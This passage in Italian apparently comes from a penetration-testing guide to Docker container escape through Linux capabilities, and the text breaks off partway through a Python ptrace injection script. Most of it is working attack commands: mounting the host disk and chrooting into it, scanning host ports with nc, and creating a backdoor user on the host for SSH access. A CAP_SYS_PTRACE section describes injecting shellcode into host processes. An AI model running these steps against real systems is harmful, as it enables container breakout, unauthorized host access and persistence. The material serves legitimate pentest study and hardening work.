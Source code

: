 Questo consente al contenitore docker di **montare il disco host e accedervi liberamente**:
```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```
- **Accesso completo**

Nel metodo precedente siamo riusciti ad accedere al disco dell'host docker.\
Nel caso in cui tu trovi che l'host sta eseguendo un server **ssh**, potresti **creare un utente all'interno del disco dell'host docker** e accedervi tramite SSH:
```bash
#Like in the example before, the first step is to mount the docker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```
## CAP_SYS_PTRACE

**Questo significa che puoi uscire dal contenitore iniettando un shellcode all'interno di un processo in esecuzione all'interno dell'host.** Per accedere ai processi in esecuzione all'interno dell'host, il contenitore deve essere eseguito almeno con **`--pid=host`**.

**[`CAP_SYS_PTRACE`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** concede la possibilità di utilizzare le funzionalità di debug e tracciamento delle chiamate di sistema fornite da `ptrace(2)` e chiamate di attacco alla memoria incrociata come `process_vm_readv(2)` e `process_vm_writev(2)`. Sebbene sia potente per scopi diagnostici e di monitoraggio, se `CAP_SYS_PTRACE` è abilitato senza misure restrittive come un filtro seccomp su `ptrace(2)`, può compromettere significativamente la sicurezza del sistema. In particolare, può essere sfruttato per eludere altre restrizioni di sicurezza, in particolare quelle imposte da seccomp, come dimostrato da [prove di concetto (PoC) come questa](https://gist.github.com/thejh/8346f47e359adecd1d53).

**Esempio con binario (python)**
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
```

```python
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
_fields_ = [
```